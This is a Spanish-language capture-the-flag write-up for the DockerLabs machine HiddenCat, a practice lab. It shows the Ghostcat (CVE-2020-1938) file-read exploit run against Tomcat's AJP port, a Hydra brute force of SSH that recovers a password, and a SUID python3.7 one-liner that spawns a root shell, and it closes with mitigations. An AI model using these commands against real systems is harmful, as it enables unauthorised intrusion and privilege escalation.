

# HiddenCat — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar la explotación de Apache Tomcat (Ghostcat) y escalada de privilegios en Linux.

## Attack chain

**Attack chain: Nmap → Web Enumeration → Gobuster → Ghostcat (CVE-2020-1938) → File Read → User Discovery → SSH Brute Force (Hydra) → SSH Access (jerry) → SUID/Python Abuse → Root**

### 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-12 15:46 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
MAC Address: 5A:F2:B5:F4:E3:16 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.97 seconds

```
Realizamos un nmap detectamos que hay dos servicvios, un `SSH`, un `Tomcat`, y en `apache` sin configurar.

Ingresamos a la pagina de la cual no tenemos informacion o posibilidad de explotar ninguna vulnerabilidad.




## 2. Fuzzing WEB 

Realizamos un fuzzing web para buscar directorios o archivos ocultos. 

```text
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ gobuster dir -u http://172.17.0.2:8080 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
docs                 (Status: 302) [Size: 0] [--> /docs/]
manager              (Status: 302) [Size: 0] [--> /manager/]
examples             (Status: 302) [Size: 0] [--> /examples/]
host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
Progress: 62281 / 62281 (100.00%)
===============================================================
Finished
===============================================================

                                                                           
```
Durante el fuzzing identifiqué las rutas `/manager/` y `/host-manager/`, que en teoría representan el camino más directo hacia RCE mediante el deploy de un WAR malicioso. Sin embargo, al intentar acceder a ambas interfaces obtuve un 403 Forbidden, ya que Tomcat restringe por defecto el acceso a estos paneles administrativos únicamente a conexiones provenientes de localhost. Esto descartó este vector desde una posición remota, por lo que continué la explotación por el camino identificado en el reconocimiento inicial: `Ghostcat vía AJP`.

## 3. EXplotacion del CVE.

Buscamos el exploit para utilizar, filtramos por `tomcat ajp` para reducir los resultados, ya que por la version de `Tomcat` obtenemos resultados que no son relevantes para esta maquina.

COpiar el exploit y desplegamos con los datos necesarios.

```text
                                                                                                                                                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ searchsploit tomcat ajp             
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                          | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                            | multiple/webapps/49039.rb
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ searchsploit -m multiple/webapps/48143.py
  Exploit: Apache Tomcat - AJP 'Ghostcat File Read/Inclusion
      URL: https://www.exploit-db.com/exploits/48143
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48143.py
    Codes: CVE-2020-1938
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/mariano/Downloads/dockerlabs-machines/02-faciles/hiddenCat/48143.py


                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ python3 48143.py -h                                                                 
usage: 48143.py [-h] [-p PORT] [-f FILE] target

positional arguments:
  target           Hostname or IP to attack

options:
  -h, --help       show this help message and exit
  -p, --port PORT  AJP port to attack (default is 8009)
  -f, --file FILE  file path :(WEB-INF/web.xml)
                                                                                                                                                                                                                                                          
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ python2 48143.py 172.17.0.2 -p 8009 -f WEB-INF/web.xml
Getting resource at ajp13://172.17.0.2:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat, Jerry ;)
  </description>

</web-app>

```

Con el resultado del script, obtenemos que hay un usuario llamado `Jerry` ya que en el final de la lectura del archivo `WEB-INF/web.xml` 

Teniendo el usuario pasamos a probar con un hydra para obtener la contraseña.


## 4. Obtención de contraseña con hydra.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ hydra -l jerry -P /usr/share/wordlists/rockyou.txt 172.17.0.2 -s 22 ssh -t 4
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-12 20:23:15
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-12 20:23:51

```
Logramos obtener la contraseña y procedemos a conectarnos por SSH y escalar privilegios.


## 4. Escalada de privilegios.

Nos conectamos por `SSH` con el usuario y contraseña que confirmamos con `hydra`

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ ssh jerry@172.17.0.2
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jerry@172.17.0.2's password: 
Linux 636b6b9f283e 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Oct 12 23:26:01 2026 from 172.17.0.1
jerry@636b6b9f283e:~$

```

Al identificar que `/usr/bin/python3.7` contaba con el bit SUID activo, aproveché esta mala configuración para escalar privilegios. Ejecuté el comando `python3.7 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`, que invoca al intérprete de Python (el cual, por el SUID, corre con el UID efectivo de root) para reemplazar el proceso actual por una shell de bash mediante la syscall execve. Al tratarse de un reemplazo de proceso (y no la creación de uno nuevo), la nueva shell hereda los privilegios efectivos de root que ya tenía el proceso de Python. El flag -p es necesario para que bash no descarte automáticamente esos privilegios elevados al detectar que el UID real difiere del efectivo, comportamiento que bash aplica por defecto como medida de seguridad.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/hiddenCat]
└─$ ssh jerry@172.17.0.2
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jerry@172.17.0.2's password: 
Linux 636b6b9f283e 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 13 03:36:31 2026 from 172.17.0.1
jerry@636b6b9f283e:~$ sudo -l
-bash: sudo: command not found
jerry@636b6b9f283e:~$ find / -perm -4000 2>/dev/null
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/perl
/usr/bin/perl5.28.1
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/python3.7m
/usr/bin/python3.7
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/umount
/bin/mount
/bin/su
/bin/ping
jerry@636b6b9f283e:~$ python3.7 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.0# whoami
root
bash-5.0# 


```


# Conclusión

Mediante el escaneo con **Nmap** y la enumeración con **Gobuster**, se identificaron los servicios de Apache Tomcat y AJP. Al no encontrar un punto de entrada directo desde la web, se aprovechó la vulnerabilidad **Ghostcat (CVE-2020-1938)** para leer `WEB-INF/web.xml` e identificar al usuario `jerry`.

Posteriormente, mediante **Hydra**, se obtuvo su contraseña y se consiguió acceso por SSH. Finalmente, se detectó que `python3.7` tenía el bit **SUID** habilitado, lo que permitió obtener una shell como **root**.

En conclusión, la máquina **HiddenCat** demuestra cómo una vulnerabilidad en Tomcat, una contraseña débil y una configuración insegura de permisos SUID pueden permitir comprometer completamente un sistema.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Ghostcat (CVE-2020-1938)** | Permite leer archivos internos mediante AJP. | Actualizar Tomcat y deshabilitar AJP si no es necesario. |
| **Contraseña débil de `jerry`** | Facilita el acceso mediante fuerza bruta contra SSH. | Utilizar contraseñas robustas y limitar intentos de autenticación. |
| **Permisos SUID en `python3.7`** | Permiten escalar privilegios hasta `root`. | Eliminar el bit SUID de intérpretes que no lo necesiten y auditar estos permisos. |

## Recomendaciones generales

- Mantener Tomcat actualizado y deshabilitar servicios innecesarios.
- Utilizar contraseñas seguras y proteger SSH frente a ataques de fuerza bruta.
- Revisar periódicamente los archivos con permisos SUID.
- Aplicar el principio de mínimo privilegio para reducir las posibilidades de escalada.
